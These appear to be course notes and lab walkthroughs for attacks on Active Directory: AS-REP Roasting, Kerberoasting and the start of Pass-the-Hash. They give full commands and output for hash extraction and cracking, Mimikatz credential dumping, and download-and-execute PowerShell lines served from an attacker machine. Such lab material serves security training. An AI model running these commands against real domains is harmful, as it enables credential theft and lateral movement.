d-----        9/22/2021  12:13 PM                PowerShell-Suite
d-----        9/22/2021  12:13 PM                PowerShell_IPv4NetworkScanner
d-----        9/22/2021  12:13 PM                Scripts
d-----         6/5/2023   8:49 AM                Timeroast
-a----        9/22/2021  12:12 PM          83225 10k-worst-pass.txt
-a----        9/22/2021  12:12 PM         558046 ADACLScan.ps1
-a----        9/22/2021  12:12 PM         199168 Akagi64.exe
-a----        9/22/2021  12:12 PM         506793 ASREPRoast-master.zip
-a----        9/22/2021  12:12 PM          14690 doc.chm
-a----        9/22/2021  12:12 PM           1318 encoded.txt
-a----        9/22/2021  12:12 PM           4814 encodedcommand.txt
-a----        9/22/2021  12:12 PM           6325 Execute-Command-MSSQL.ps1
-a----        9/22/2021  12:12 PM           9693 Find-PSServiceAccounts.ps1
-a----        9/22/2021  12:12 PM           2126 Find-WMILocalAdminAccess.ps1
-a----        9/22/2021  12:12 PM        5961778 HeidiSQL_9.4_Portable.zip
-a----        9/22/2021  12:12 PM        2501632 hfs.exe
-a----        9/22/2021  12:12 PM           4722 Invoke-Encode.ps1
-a----        9/22/2021  12:13 PM        3190829 Invoke-Mimikatz.ps1
-a----        9/22/2021  12:12 PM           4339 Invoke-PowerShellTcp.ps1
-a----         6/5/2023   8:30 AM            975 Invoke-PowerShellTcpOneLine_443.ps1
-a----        9/22/2021  12:12 PM          94961 Invoke-TokenManipulation.ps1
-a----        9/22/2021  12:12 PM       65376163 johnTheRipper.zip ←
-a----        9/22/2021  12:12 PM        1123514 kekeo.zip
-a----        9/22/2021  12:12 PM         453532 kekeo_one.zip
-a----        9/22/2021  12:12 PM        1253993 mimikatz.zip
-a----        9/22/2021  12:12 PM         111892 Netcat.zip
-a----        9/22/2021  12:12 PM          19502 Out-CHM.ps1
-a----        9/22/2021  12:12 PM          37641 powercat.ps1
-a----        9/22/2021  12:12 PM          35822 Powermad.zip
-a----        9/22/2021  12:12 PM              0 PowerSploit.zip
-a----        9/22/2021  12:12 PM         351421 PowerUp.ps1
-a----        9/22/2021  12:12 PM        1181811 PowerUpSQL.ps1
-a----        9/22/2021  12:12 PM       17902620 PowerUpSQL.zip
-a----        9/22/2021  12:12 PM         769757 PowerView.ps1 ←
-a----        9/22/2021  12:12 PM         790661 PowerView_dev.ps1
-a----        9/22/2021  12:12 PM        1078672 PsExec64.exe
-a----        9/22/2021  12:12 PM           2418 reverse.bat
-a----        9/22/2021  12:12 PM         348672 rotten.exe
-a----        9/22/2021  12:12 PM         454144 Rubeus.exe ←
```

`Import-Module .\PowerView.ps1`

1. **Identify vulnerable account with enabled "Do not require preauthentication" option.** 

`Get-NetUser -PreauthNotRequired | Select SamAccountName,UserAccountControl`:
```
samaccountname                                     useraccountcontrol
--------------                                     ------------------
Johnny         NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH ←
```

`Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }`:
```
logoncount                    : 0
badpasswordtime               : 1/1/1601 12:00:00 AM
distinguishedname             : CN=Johnny,CN=Users,DC=research,DC=SECURITY,DC=local
objectclass                   : {top, person, organizationalPerson, user}
name                          : Johnny ←
objectsid                     : S-1-5-21-1693200156-3137632808-1858025440-2610
samaccountname                : Johnny
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : 1/1/1601 12:00:00 AM
countrycode                   : 0
whenchanged                   : 6/20/2023 7:43:49 AM
instancetype                  : 4
usncreated                    : 49208
objectguid                    : 7c5b30fa-b1b8-4138-8768-322e562779b2
lastlogoff                    : 1/1/1601 12:00:00 AM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=SECURITY,DC=local
dscorepropagationdata         : 1/1/1601 12:00:00 AM
lastlogon                     : 1/1/1601 12:00:00 AM
badpwdcount                   : 0
cn                            : Johnny
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH ←
whencreated                   : 6/20/2023 7:43:14 AM
primarygroupid                : 513
pwdlastset                    : 6/20/2023 7:43:14 AM
msds-supportedencryptiontypes : 0
usnchanged                    : 49213
```

2. **Exploit AS-REP Roasting to extract password hashes.**

`.\Rubeus.exe asreproast /user:johnny /outfile:$HOME\Desktop\user_hash.txt`:
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


[*] Action: AS-REP roasting

[*] Target User            : johnny
[*] Target Domain          : research.SECURITY.local

[*] Searching path 'LDAP://prod.research.SECURITY.local/DC=research,DC=SECURITY,DC=local' for '(&(samAccountType=8053063
68)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=johnny))'
[*] SamAccountName         : Johnny
[*] DistinguishedName      : CN=Johnny,CN=Users,DC=research,DC=SECURITY,DC=local
[*] Using domain controller: prod.research.SECURITY.local (10.0.0.165)
[*] Building AS-REQ (w/o preauth) for: 'research.SECURITY.local\Johnny'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\student\Desktop\user_hash.txt

[*] Roasted hashes written to : C:\Users\student\Desktop\user_hash.txt
```

Running the above command will initiate the AS-REP Roasting attack using `Rubeus.exe`. The tool will attempt to request and retrieve AS-REP responses containing the TGTs for accounts vulnerable to AS-REP Roasting.

By executing this command, we exploit the vulnerability to obtain the AS-REP hashes that can be further cracked or used for privilege escalation.

3. **Crack hashes for plaintext passwords.**

`Expand-Archive -Path .\johnTheRipper.zip -DestinationPath .\johnTheRipper`

`tree .\johnTheRipper`:
```
Folder PATH listing
Volume serial number is BE55-08DC
C:\TOOLS\JOHNTHERIPPER
└───john-1.9.0-jumbo-1-win64
    ├───doc
    │   └───extras
    ├───etc
    │   └───OpenCL
    │       └───vendors
    └───run
        ├───dns
        ├───kernels
        ├───lib
        └───rules
```

`ls .\johnTheRipper\john-1.9.0-jumbo-1-win64\run *.exe | Select Name`:
```
Name
----
base64conv.exe
bitlocker2john.exe
calc_stat.exe
cprepair.exe
dmg2john.exe
genmkvpwd.exe
gpg2john.exe
hccap2john.exe
john-avx-non-omp.exe
john-avx.exe
john-avx2-non-omp.exe
john-sse2-non-omp.exe
john-sse2.exe
john-sse41-non-omp.exe
john-sse41.exe
john-xop-non-omp.exe
john-xop.exe
john.exe ←
keepass2john.exe
mkvcalcproba.exe
putty2john.exe
racf2john.exe
rar2john.exe
raw2dyna.exe
tgtsnarf.exe
uaf2john.exe
unafs.exe
undrop.exe
unique.exe
unshadow.exe
wpapcap2john.exe
zip2john.exe
```

`.\johnTheRipper\john-1.9.0-jumbo-1-win64\run\john.exe $HOME\Desktop\user_hash.txt --format=krb5asrep --wordlist=.\10k-worst-pass.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX
2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           ($krb5asrep$Johnny@research.SECURITY.local) ←
1g 0:00:00:00 DONE (2024-06-10 14:47) 3.546g/s 3631p/s 3631c/s 3631C/s password..pavilion
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is "123456".

So based on the above screenshot we can conclude that the AS-REP hash has been successfully cracked using JohnTheRipper.

### Kerberoasting - Video/Lab

**Kerberoasting** is a post-exploitation attack technique used to obtain the password hash of an Active Directory account with a Service Principal Name (SPN). <u>An SPN is an attribute that links a service to a user account in AD</u>.

In such an attack, an authenticated domain user requests a Kerberos ticket for an SPN. The ticket is encrypted with the hash of the service account password associated with the SPN. The attacker extracts the ticket and attempts to crack the password hash offline using brute force techniques.

Once the plaintext credentials of the service account are obtained, the attacker can impersonate the account owner and inherit access to any systems, assets or networks granted to the compromised account.

#### Lab Environment

In this lab environment, GUI access to a Domain User called Research/Student on a Windows Server 2012 machine, which serves as your workstation. The workstation is vulnerable to Kerberoasting attack.

Your task is to identify accounts that have a Service Principal Name (SPN) enabled, allowing the attacker to request TGS tickets and extract the password hashes. By exploiting this, you will aim to gain the cracked password for the identified account helping us to compromise data or escalate privileges in the Active Directory environment.

**Objective**: Identify user accounts with Service Principal Name (SPN) enabled, perform a Kerberoasting attack to extract password hashes, and use the cracked password to compromise data or escalate privileges within the Active Directory.

Below are the tasks that you need to perform:
1. <u>Identify user accounts with Service Principal Name (SPN) enabled</u>.
2. <u>Request a TGS ticket for the specified SPN</u> using Kerberos.
	1. <u>Crack the password</u> from the TGS ticket using `Tgsrepcrack`.

The best tools for this lab are:
- PowerView.ps1
- Invoke-Mimikatz.ps1
- Kerberoasting
- Tgsrepcrack.

#### Lab Soution

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`Get-NetUser | Where-Object { $_.ServicePrincipalName } | fl`: to find and list all users with a Service Principal Name (SPN).
(Using PowerView to list users that have a Service Principal Name (SPN) set, indicating they are associated with a service that can be targeted for Kerberoasting.)
`setspn -T research -Q */*`: to query all SPNs in the 'research' domain.
(Querying the 'research' domain for all SPNs to identify services that can be targeted.)
`klist`: to list the Kerberos tickets for the current user session.
(Checking the current Kerberos tickets for the user session to verify existing tickets and their details.)

`Add-Type -AssemblyName System.IdentityModel`: to load the .NET assembly needed for advanced Kerberos authentication functions.
(Loading the .NET assembly that provides advanced Kerberos authentication functionalities.)
`New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/research.SECURITY.local"`: to create a Kerberos ticket request for the specified "ops/research.SECURITY.local" service.
(Creating a Kerberos ticket request for the specified service, initiating the process to request a TGS ticket.)

`Import-Module .\Invoke-Mimikatz.ps1`:to import the [Invoke-Mimikatz module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

`Invoke-Mimikatz -Command '"kerberos::list /export"'`: to list and export all Kerberos tickets in the current user session.
(Listing all Kerberos tickets in the current session and exporting them for further analysis and cracking.)

`.\python.exe .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi`: to use [Kerberoast tools suite](https://github.com/nidem/kerberoast) to crack the TGS-REP hash using a wordlist.
(Using the Kerberoast tools suite with Python to crack the extracted TGS-REP hash using a specified wordlist, aiming to find the plaintext password.)

#### Lab Execution

*Terminal #1* (run as administrator)

`powershell -ep bypass`

`cd C:\Tools`, `ls`:
```
    Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/22/2021  12:12 PM                ADModule
d-----        6/12/2023   5:24 AM                ADRecon
d-----        6/12/2023   5:00 AM                BloodHound
d-----        6/12/2023   5:20 AM                DomainPasswordSpray
d-----         6/5/2023   8:33 AM                Ghostpack-CompiledBinaries
d-----        9/22/2021  12:12 PM                hashcat
d-----         6/5/2023   8:46 AM                impacket
d-----         6/5/2023   8:46 AM                impacket-windows-binaries
d-----         6/5/2023   8:31 AM                kekeo
d-----        9/22/2021  12:13 PM                kekeo_one
d-----        9/22/2021  12:13 PM                kerberoast-Python2
d-----        9/22/2021  12:13 PM                kerberoast-Python3 ←
d-----        9/22/2021  12:13 PM                Nishang
d-----        9/22/2021  12:13 PM                PowerShell-Suite
d-----        9/22/2021  12:13 PM                PowerShell_IPv4NetworkScanner
d-----        9/22/2021  12:13 PM                Scripts
d-----         6/5/2023   8:49 AM                Timeroast
-a----        9/22/2021  12:12 PM          83225 10k-worst-pass.txt
-a----        9/22/2021  12:12 PM         558046 ADACLScan.ps1
-a----        9/22/2021  12:12 PM         199168 Akagi64.exe
-a----        9/22/2021  12:12 PM         506793 ASREPRoast-master.zip
-a----        9/22/2021  12:12 PM          14690 doc.chm
-a----        9/22/2021  12:12 PM           1318 encoded.txt
-a----        9/22/2021  12:12 PM           4814 encodedcommand.txt
-a----        9/22/2021  12:12 PM           6325 Execute-Command-MSSQL.ps1
-a----        9/22/2021  12:12 PM           9693 Find-PSServiceAccounts.ps1
-a----        9/22/2021  12:12 PM           2126 Find-WMILocalAdminAccess.ps1
-a----        9/22/2021  12:12 PM        5961778 HeidiSQL_9.4_Portable.zip
-a----        9/22/2021  12:12 PM        2501632 hfs.exe
-a----        9/22/2021  12:12 PM           4722 Invoke-Encode.ps1
-a----        9/22/2021  12:13 PM        3190829 Invoke-Mimikatz.ps1 ←
-a----        9/22/2021  12:12 PM           4339 Invoke-PowerShellTcp.ps1
-a----         6/5/2023   8:30 AM            975 Invoke-PowerShellTcpOneLine_443.ps1
-a----        9/22/2021  12:12 PM          94961 Invoke-TokenManipulation.ps1
-a----        9/22/2021  12:12 PM       65376163 johnTheRipper.zip
-a----        9/22/2021  12:12 PM        1123514 kekeo.zip
-a----        9/22/2021  12:12 PM         453532 kekeo_one.zip
-a----        9/22/2021  12:12 PM        1253993 mimikatz.zip
-a----        9/22/2021  12:12 PM         111892 Netcat.zip
-a----        9/22/2021  12:12 PM          19502 Out-CHM.ps1
-a----        9/22/2021  12:12 PM          37641 powercat.ps1
-a----        9/22/2021  12:12 PM          35822 Powermad.zip
-a----        9/22/2021  12:12 PM              0 PowerSploit.zip
-a----        9/22/2021  12:12 PM         351421 PowerUp.ps1
-a----        9/22/2021  12:12 PM        1181811 PowerUpSQL.ps1
-a----        9/22/2021  12:12 PM       17902620 PowerUpSQL.zip
-a----        9/22/2021  12:12 PM         769757 PowerView.ps1 ←
-a----        9/22/2021  12:12 PM         790661 PowerView_dev.ps1
-a----        9/22/2021  12:12 PM        1078672 PsExec64.exe
-a----        9/22/2021  12:12 PM           2418 reverse.bat
-a----        9/22/2021  12:12 PM         348672 rotten.exe
-a----        9/22/2021  12:12 PM         454144 Rubeus.exe
```

`Import-Module .\PowerView.ps1`

1. **Identify user accounts with Service Principal Name (SPN) enabled.**

<u>Service Principal Names (SPNs) are unique identifiers used by Kerberos to link a specific service instance to the user account running it. This allows a client application to authenticate with the service using its SPN (e.g. "SQLServer/host.example.com"), without needing to know the name of the user account (e.g. "sql-svc") associated with the service</u>.

In a Kerberoasting attack, an adversary may target as many service accounts as possible or conduct internal reconnaissance to find specific service accounts with the privileges they desire. In either case, the attacker needs to enumerate the ServicePrincipalNames (SPNs) for the service accounts being targeted.

*Enumerate ServicePrincipalNames*

`Get-Domain`:
```
Forest                  : SECURITY.local
DomainControllers       : {prod.research.SECURITY.local}
Children                : {}
DomainMode              : Windows2012R2Domain
DomainModeLevel         : 6
Parent                  : SECURITY.local
PdcRoleOwner            : prod.research.SECURITY.local
RidRoleOwner            : prod.research.SECURITY.local
InfrastructureRoleOwner : prod.research.SECURITY.local
Name                    : research.SECURITY.local ←
```

`Get-NetUser | Where-Object { $_.ServicePrincipalName } | Format-List`:
```
logoncount                    : 0
badpasswordtime               : 1/1/1601 12:00:00 AM
description                   : Key Distribution Center Service Account
distinguishedname             : CN=krbtgt,CN=Users,DC=research,DC=SECURITY,DC=local
objectclass                   : {top, person, organizationalPerson, user}
name                          : krbtgt
primarygroupid                : 513
objectsid                     : S-1-5-21-1693200156-3137632808-1858025440-502
samaccountname                : krbtgt
logonhours                    : {255, 255, 255, 255...}
admincount                    : 1
codepage                      : 0
samaccounttype                : USER_OBJECT
showinadvancedviewonly        : True
accountexpires                : 1/1/1601 12:00:00 AM
cn                            : krbtgt
whenchanged                   : 5/31/2023 10:30:16 AM
instancetype                  : 4
objectguid                    : 389927ac-969c-4bdc-8b4f-68b0726f4cb9
lastlogon                     : 1/1/1601 12:00:00 AM
lastlogoff                    : 1/1/1601 12:00:00 AM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=SECURITY,DC=local
dscorepropagationdata         : {5/31/2023 10:30:16 AM, 5/31/2023 9:50:29 AM, 9/27/2021 9:21:25 AM, 1/1/1601 6:12:16
                                PM}
serviceprincipalname          : kadmin/changepw
memberof                      : CN=Denied RODC Password Replication Group,CN=Users,DC=research,DC=SECURITY,DC=local
whencreated                   : 9/27/2021 9:21:24 AM
iscriticalsystemobject        : True
badpwdcount                   : 0
useraccountcontrol            : ACCOUNTDISABLE, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
usncreated                    : 12300
countrycode                   : 0
pwdlastset                    : 9/27/2021 9:21:24 AM
msds-supportedencryptiontypes : 0
usnchanged                    : 36988

logoncount            : 0
badpasswordtime       : 1/1/1601 12:00:00 AM
distinguishedname     : CN=Stephen,CN=Users,DC=research,DC=SECURITY,DC=local
objectclass           : {top, person, organizationalPerson, user}
name                  : Stephen ←
objectsid             : S-1-5-21-1693200156-3137632808-1858025440-2610
samaccountname        : Stephen
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : 1/1/1601 12:00:00 AM
countrycode           : 0
whenchanged           : 6/11/2024 7:37:20 AM
instancetype          : 4
objectguid            : fff3f153-493d-4b13-ab72-0eea29a63bd7
lastlogon             : 1/1/1601 12:00:00 AM
lastlogoff            : 1/1/1601 12:00:00 AM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=SECURITY,DC=local
dscorepropagationdata : 1/1/1601 12:00:00 AM
serviceprincipalname  : ops/research.SECURITY.local:1434 ←
memberof              : CN=Domain Admins,CN=Users,DC=research,DC=SECURITY,DC=local
whencreated           : 6/11/2024 7:37:04 AM
badpwdcount           : 0
cn                    : Stephen
useraccountcontrol    : NORMAL_ACCOUNT
usncreated            : 49196
primarygroupid        : 513
pwdlastset            : 6/11/2024 7:37:04 AM
usnchanged            : 49214
```

`setspn -T research -Q */*`:
```
Checking domain DC=research,DC=SECURITY,DC=local
CN=krbtgt,CN=Users,DC=research,DC=SECURITY,DC=local
        kadmin/changepw
CN=Stephen,CN=Users,DC=research,DC=SECURITY,DC=local ←
        ops/research.SECURITY.local:1434 ←
CN=CLIENT,CN=Computers,DC=research,DC=SECURITY,DC=local
        TERMSRV/CLIENT
        TERMSRV/client.research.SECURITY.local
        WSMAN/client
        WSMAN/client.research.SECURITY.local
        RestrictedKrbHost/CLIENT
        HOST/CLIENT
        RestrictedKrbHost/client.research.SECURITY.local
        HOST/client.research.SECURITY.local
CN=PROD,OU=Domain Controllers,DC=research,DC=SECURITY,DC=local
        ldap/prod.research.SECURITY.local/DomainDnsZones.research.SECURITY.local
        ldap/prod.research.SECURITY.local/ForestDnsZones.SECURITY.local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/prod.research.SECURITY.local
        TERMSRV/PROD
        TERMSRV/prod.research.SECURITY.local
        DNS/prod.research.SECURITY.local
        GC/prod.research.SECURITY.local/SECURITY.local
        RestrictedKrbHost/prod.research.SECURITY.local
        RestrictedKrbHost/PROD
        RPC/2638f71c-f8a0-4322-a016-d1a04e309560._msdcs.SECURITY.local
        HOST/PROD/RESEARCH
        HOST/prod.research.SECURITY.local/RESEARCH
        HOST/PROD
        HOST/prod.research.SECURITY.local
        HOST/prod.research.SECURITY.local/research.SECURITY.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/2638f71c-f8a0-4322-a016-d1a04e309560/research.SECURITY.local
        ldap/PROD/RESEARCH
        ldap/2638f71c-f8a0-4322-a016-d1a04e309560._msdcs.SECURITY.local
        ldap/prod.research.SECURITY.local/RESEARCH
        ldap/PROD
        ldap/prod.research.SECURITY.local
        ldap/prod.research.SECURITY.local/research.SECURITY.local

Existing SPN found!
```

The `setspn` command is used to manage the SPN directory property for an Active Directory service account. This command allows us <u>to find all SPNs that are registered to an account, across all of the domains in the forest</u>.

2. **Request a TGS ticket for the specified SPN using Kerberos.**

*Review Kerberos tickets*

`klist`:
```
Current LogonId is 0:0x40757

Cached Tickets: (2)

#0>     Client: student @ RESEARCH.SECURITY.LOCAL
        Server: krbtgt/RESEARCH.SECURITY.LOCAL @ RESEARCH.SECURITY.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/11/2024 8:40:10 (local)
        End Time:   6/11/2024 18:40:10 (local)
        Renew Time: 6/18/2024 8:40:10 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: 10.0.0.165

#1>     Client: student @ RESEARCH.SECURITY.LOCAL
        Server: LDAP/prod.research.SECURITY.local/research.SECURITY.local @ RESEARCH.SECURITY.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/11/2024 8:40:36 (local)
        End Time:   6/11/2024 18:40:10 (local)
        Renew Time: 6/18/2024 8:40:10 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: 10.0.0.165
```

The command `klist` is used here <u>to list all the Kerberos tickets of the current user session</u>. Kerberos tickets are used in the Kerberos authentication protocol to prove identity for network interactions.

*Initiate a TGS Ticket Request*

The following command adds the assembly `System.IdentityModel` to the current PowerShell session and creates a new object of type `KerberosRequestorSecurityToken`. This is part of the .NET framework and is used <u>to request a Kerberos Ticket Granting Service (TGS) ticket for the specified Service Principal Name (SPN)</u>.

`Add-Type -AssemblyName System.IdentityModel`

`New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/research.SECURITY.local:1434"`:
```
Id                   : uuid-084e62e4-ce8a-4e6f-961f-20b7ca01c146-1
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 6/11/2024 8:47:35 AM
ValidTo              : 6/11/2024 6:40:10 PM
ServicePrincipalName : ops/research.SECURITY.local:1434
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

The command `Add-Type -AssemblyName System.IdentityModel` loads the .NET assembly `System.IdentityModel` into the current PowerShell session. This assembly contains the `System.IdentityModel.Tokens.KerberosRequestorSecurityToken` class, which can request a Kerberos Ticket Granting Service (TGS) ticket for the specified Service Principal Name (SPN).

*Export Kerberos Tickets*

`Import-Module .\Invoke-Mimikatz.ps1`

The argument `"kerberos::list /export"` passed to the `Invoke-Mimikatz` command lists all Kerberos tickets and exports them for further use. This is particularly useful in Kerberoasting as it provides the Kerberos tickets required to attempt to crack the password.

`Invoke-Mimikatz -Command '"kerberos::list /export"'`:
```
Hostname: client.research.SECURITY.local / S-1-5-21-1693200156-3137632808-1858025440

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun  9 2021 18:55:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 6/11/2024 8:40:10 AM ; 6/11/2024 6:40:10 PM ; 6/18/2024 8:40:10 AM
   Server Name       : krbtgt/RESEARCH.SECURITY.LOCAL @ RESEARCH.SECURITY.LOCAL
   Client Name       : student @ RESEARCH.SECURITY.LOCAL
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
   * Saved to file     : 0-40e10000-student@krbtgt~RESEARCH.SECURITY.LOCAL-RESEARCH.SECURITY.LOCAL.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 6/11/2024 8:47:35 AM ; 6/11/2024 6:40:10 PM ; 6/18/2024 8:40:10 AM
   Server Name       : ops/research.SECURITY.local:1434 @ RESEARCH.SECURITY.LOCAL
   Client Name       : student @ RESEARCH.SECURITY.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
   * Saved to file     : 1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi ←

[00000002] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 6/11/2024 8:40:36 AM ; 6/11/2024 6:40:10 PM ; 6/18/2024 8:40:10 AM
   Server Name       : LDAP/prod.research.SECURITY.local/research.SECURITY.local @ RESEARCH.SECURITY.LOCAL
   Client Name       : student @ RESEARCH.SECURITY.LOCAL
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
   * Saved to file     : 2-40a50000-student@LDAP~prod.research.SECURITY.local~research.SECURITY.local-RESEARCH.SECURITY.
LOCAL.kirbi
```

`ls | Select Name`:
```
Name
----
ADModule
Ghostpack-CompiledBinaries
hashcat
impacket
impacket-windows-binaries
kekeo
kekeo_one
kerberoast-Python2
kerberoast-Python3
Nishang
PowerShell-Suite
PowerShell_IPv4NetworkScanner
Scripts
SecLists
Timeroast
0-40e10000-student@krbtgt~RESEARCH.SECURITY.LOCAL-RESEARCH.SECURITY.LOCAL.kirbi
1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi ←
10k-worst-pass.txt
2-40a50000-student@LDAP~prod.research.SECURITY.local~research.SECURITY.local-RESEARCH.SECURITY.LOCAL.kirbi
```

3. **Crack the password from the TGS ticket using Tgsrepcrack.**

`python .\kerberoast-Python3\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi`:
```
    USE HASHCAT, IT'S HELLA FASTER!!


Cracking 1 tickets...
found password for ticket 0: maverick  File: .\1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOC
AL.kirbi ←
Successfully cracked all tickets
```

This command runs the Python script `tgsrepcrack.py` that uses the list of weak passwords (`10k-worst-pass.txt`) to attempt to crack the password encrypted in the TGS ticket file (`1-40a10000-student@ops~research.SECURITY.local~1434-RESEARCH.SECURITY.LOCAL.kirbi`). The script will display the cracked password once it's successful.

After the script is executed, the cracked password is displayed, which is "maverick" in this instance. This illustrates the risk of using weak passwords and their vulnerability to password cracking tools and techniques. With the plaintext password, the attacker can authenticate to any resources the service account has access to, helping them to compromise data or escalate privileges.

---

## Active Directory Lateral Movement

### AD Lateral Movement: Pass-the-Hash - Video/Lab

A **Pass-the-Hash** (PtH) attack is a credential theft technique targeting Windows-based systems. In this attack, <u>an attacker uses a user's hashed password to authenticate without needing the plaintext password</u>.

The attack typically starts with the attacker gaining unauthorized access to a compromised system where the target user's hashed password is stored. Once the hash is acquired, the attacker can exploit weaknesses in the Windows authentication protocol, such as NTLM or Kerberos, <u>to pass the hashed credentials to other systems within the Active Directory domain</u>.

By bypassing the need to crack the password, <u>the attacker can move laterally within the network, escalate privileges, and potentially carry out malicious activities</u>.

#### Lab Environment

In this lab environment, you will be provided with GUI access to a Windows machine (2012). This machine will serve as your attacker machine. Your task in this lab is to perform Pass-the-Hash attack to gain access to the Domain Controller.

**Objective**: Perform Pass-the-Hash attack to gain access to the Domain Controller.

**Note:** All the tools are present in the `C:\Tools` directory.

The best tools for this lab are:
- PowerView.ps1
- Invoke-TokenManipulation.ps1
- Invoke-Mimikatz.ps1.

#### Lab Solution

*Terminal #1*.

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\PowerView.ps1`: to import the [PowerView module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

`Get-Domain`: to retrieve information about the current domain.
(Retrieving general information about the current Active Directory domain.)
`Find-LocalAdminAccess`: to find computers where the current user has local administrator access.
(Identifying machines where the current user has local admin rights, which are potential targets for further exploitation.)

`Enter-PSSession seclogs.research.SECURITY.local`: to enter a remote PowerShell session on the 'seclogs' machine in the 'research.SECURITY.local' domain.
(Starting a remote session with the target machine 'seclogs.research.SECURITY.local' for further commands.)

`whoami`: to display the current hostname.
(Confirming the identity of the current user in the remote session.)
`whoami /all`: to display detailed information about the current user, including group memberships and privileges.
(Retrieving detailed information about the current user's privileges and group memberships to understand the level of access.)

*Terminal #2*.

`cd C:\Tools`, `dir`, `python -m http.server 80`: to start a simple HTTP server to serve the 'Invoke-TokenManipulation.ps1' and 'Invoke-Mimikatz.ps1' scripts.
(Setting up a simple HTTP server to host and serve necessary scripts for remote execution.)

*Terminal #1*.

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')`: to download and execute the 'Invoke-TokenManipulation.ps1' script from the specified URL.
`Invoke-TokenManipulation -Enumerate`: to enumerate tokens on the local system.
(Enumerating available tokens on the system to find tokens that can be used to elevate privileges.)

`iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')`: to download and execute the 'Invoke-Mimikatz.ps1' script from the specified URL.
`Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'`: to enable debug privileges, elevate the token, and retrieve logon passwords, including the domain administrator NTLM hash.
(Enabling debug privileges, elevating the token, and extracting logon passwords to obtain the NTLM hash of the domain administrator.)

*Terminal #3* (run as administrator).

`powershell -ep bypass`: to bypass the execution policy to allow running scripts.

`cd C:\Tools`, `Import-Module .\Invoke-Mimikatz.ps1`: to import the  [Invoke-Mimikatz module](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).

